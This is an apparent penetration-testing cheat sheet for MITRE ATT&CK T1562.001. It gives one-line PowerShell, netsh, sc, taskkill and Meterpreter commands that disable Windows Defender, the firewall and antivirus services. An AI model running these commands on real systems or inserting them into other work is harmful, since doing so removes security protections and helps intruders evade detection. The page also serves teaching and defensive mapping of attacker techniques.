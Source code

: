 ```yaml
---
description: MITRE ATT&CK, Defense Evasion, Sub-technique T1562.001
---
```


# Disable or Modify Tools

### Methods

#### Disable real-time monitoring for Windows Defender

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

#### Disable Windows Firewall

```powershell
netsh advfirewall set allprofiles state off
```

#### Manually Disable Antivirus

```powershell
Taskkill /F /IM avprocess.exe
```

#### Stop an Antivirus Service

```powershell
net stop "$service_name"
```

#### Disable a Windows Service

```powershell
sc config "service name" start= disabled
```

#### Meterpreter Killav

Meterpreter has a built-in script that will attempt to kill any antivirus identified on the device. I've had mixed results with this but if you're not trying to be quiet then this is sometimes an easy win:

```bash
run killav
```

#### Disable Antivirus via the GUI

Non-administrative users are sometimes able to disable or create an exception for the antivirus running on the host via the GUI. If the target has one of these then you can either right click the icon in the task bar and disable it or manually open the GUI and disable it in settings.
